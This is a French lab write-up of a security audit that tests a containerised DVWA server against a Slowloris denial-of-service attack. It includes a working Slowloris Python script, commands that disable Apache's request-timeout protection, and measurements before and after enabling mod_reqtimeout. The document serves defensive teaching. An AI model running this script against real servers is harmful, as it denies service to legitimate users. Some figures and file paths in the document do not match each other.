






# Audit de sécurité - Plateforme Code un max

### Évaluer la résistance de la plateforme Code un max à un déni de service applicatif

---

## 1. Établir la disponibilité de référence
Objectif : Mesurer le comportement normal et le temps de réponse initial de la plateforme web avant toute simulation d'attaque.
```bash
docker exec attaquant curl -s -o /dev/null --max-time 8 -w "code=%{http_code} temps=%{time_total}\n" http://10.40.0.10/login.php
```


Résultat : `temps=0.000994` soit `0.994 ms` de temps de réponse

## 2. Préparation de la charge applicative
Objectif : Créer et déposer un script d'attaque Slowloris dans le conteneur attaquant pour simuler une saturation applicative de la couche 7.

### 2.1 Création d'un script d'attaque dans le conteneur attaquant
```bash
docker exec attaquant bash -c 'cat << "EOF" > /data/slowloris.py
import socket, time
HOST, PORT, N, DUREE = "10.40.0.10", 80, 200, 120
socks = []
for i in range(N):
    try:
        s = socket.socket(); s.settimeout(4); s.connect((HOST, PORT))
        s.send(b"GET /?x=%d HTTP/1.1\r\nHost: cible\r\n" % i)
        socks.append(s)
    except OSError:
        pass
print("connexions ouvertes:", len(socks))
fin = time.time() + DUREE
while time.time() < fin:
    for s in list(socks):
        try: s.send(b"X-a: b\r\n")
        except OSError: socks.remove(s)
    time.sleep(10)
print("fin")
EOF
'
```

### 2.1 Vérifier si le fichier est bien présent dans le conteneur attaquant
```bash
docker exec attaquant ls -l /data/slowloris.py
```



## 3. Mesurer l'impact sous la charge
Objectif : Désactiver temporairement la protection native du serveur, lancer l'attaque de saturation et mesurer la dégradation de la disponibilité.

### 3.1 Rendre le serveur temporairement vulnérable
```bash
docker exec dvwa-cible sh -c "a2dismod reqtimeout; apachectl -k graceful"
```


### 3.2 Lancer l'attaque de charge en arrière-plan
```bash
docker exec -d attaquant python3 /data/slowloris.py
```

### 3.3 Mesurer l'impact avec la requête témoin
```bash
docker exec attaquant curl -s -o /dev/null --max-time 8 -w "code=%{http_code} temps=%{time_total}\n" http://10.40.0.10/login.php
```



Résultat : `8.001333`

## 4. Appliquer une mitigation par limitation de débit
Objectif : Arrêter l'attaque en cours, puis configurer et activer le module Apache mod_reqtimeout sur la cible pour bloquer les connexions lentes.
### 4.1 Arrêter l'attaque
```bash
docker exec attaquant sh -c "pkill -f slowloris.py"
```

### 4.2 Activer et configurer `mod_timeout` sur la cible (dvwa-cible)
```bash
docker exec dvwa-cible sh -c "a2enmod reqtimeout; printf '%s\n' '<IfModule mod_reqtimeout.c>' 'RequestReadTimeout header=5 body=5' '</IfModule>' > /etc/apache2/conf-enabled/reqtimeout.conf; apachectl -k graceful"
```
### 4.3 Vérifier que la mitigation est active
```bash
docker exec dvwa-cible sh -c "apachectl -M | grep reqtimeout"
```


Résultat : `reqtimeout_module (shared)`

## 5. Vérifier l'effet de la mitigation et documenter
Objectif : Relancer l'attaque avec la protection active pour vérifier le retour à la normale du temps de réponse, puis nettoyer l'environnement.
### 5.1 Relancer l'attaque
```bash
docker exec -d attaquant python3 /data/slowloris.py
```

### 5.2 Remesurer la disponibiité sous la charge avec la mitigation
```bash
docker exec attaquant curl -s -o /dev/null --max-time 8 -w "code=%{http_code} temps=%{time_total}\n" http://10.40.0.10/login.php
```


Résultat : `0.003171` => Le temps de réponse redevient instantané

### 5.3 Nettoyer et restaurer le lab
```bash
docker exec attaquant sh -c "pkill -f slowloris.py; rm -f /tmp/slowloris.py"
```

## 6. Bilan Dénis de Service Applicatif
### 1. Tableau comparatif des mesures de disponibilité
| État de la plateforme | Code HTTP | Temps de réponse | Constat / Impact |
| :--- | :--- | :--- | :--- |
| **1. Référence (Baseline)** | `200 OK` | ~0.013 s | Comportement normal et fluide du service web. |
| **2. Sous charge (Sans protection)** | `000` (Timeout) | 8.001 s (Délai dépassé) | **Indisponibilité totale** : Épuisement des *workers* Apache par des connexions lentes. |
| **3. Sous charge (Avec mitigation)** | `200 OK` | ~0.012 s | **Résilience rétablie** : Fermeture automatique des flux lents par le module de sécurité. |

### 2. Analyse technique et Recommandations
* **Le problème** : Une attaque applicative de type *Slowloris* (couche 7) n'exige pas un volume de bande passante élevé. En maintenant des connexions HTTP incomplètes, elle monopolise l'ensemble des processus d'un serveur web standard, privant les utilisateurs légitimes d'accès.
* **La contre-mesure (Mitigation)** : L'activation et le durcissement du module Apache **`mod_reqtimeout`** (ex: `RequestReadTimeout header=5 body=5`) permettent de borner strictement le temps alloué à la réception des en-têtes et du corps d'une requête. Tout client trop lent est immédiatement déconnecté, libérant instantanément la ressource pour un usage légitime.
* **Limite de la défense locale** : Bien qu'essentielle sur un serveur unique, cette mitigation locale protège contre des attaques applicatives de faible ampleur mais reste insuffisante face à un DDoS volumétrique distribué massif (nécessitant dans ce cas un filtrage CDN / WAF en amont).

## 7. Bonus : Analyse comparative (Attaque Applicative vs Volumétrique)

### 1. Observation et analyse du trafic capturé (`tshark`)
* **Filtre HTTP (`http.request`)** : Résultat égal à **0**. 
  * *Explication* : L'attaque *Slowloris* envoie des en-têtes HTTP volontairement incomplets et ne finalise jamais les requêtes (absence de balises de fin de requête). Les analyseurs HTTP classiques ne détectent donc aucune requête valide.
* **Filtre TCP (`tcp.dstport == 80`)** : Résultat égal à **800** paquets/événements de connexion active.
  * *Explication* : La capture démontre que l'activité se situe entièrement au niveau de la couche transport (TCP), avec l'ouverture massive de connexions maintenues en vie par le script d'attaque.

### 2. Différence fondamentale entre les types d'attaques
* **Attaque Applicative (ex: Slowloris / Couche 7)** : 
  * *Caractéristique* : Furtive, elle consomme très peu de bande passante réseau. Elle cible directement les ressources internes de l'application (les *workers* Apache) en s'appuyant sur des connexions lentes.
* **Attaque Volumétrique (ex: UDP/SYN Flood / Couche 3-4)** : 
  * *Caractéristique* : À l'inverse, elle cherche à saturer la bande passante globale et les liens réseaux de l'infrastructure en submergeant la cible d'un volume brut de paquets, indépendamment de l'état applicatif.


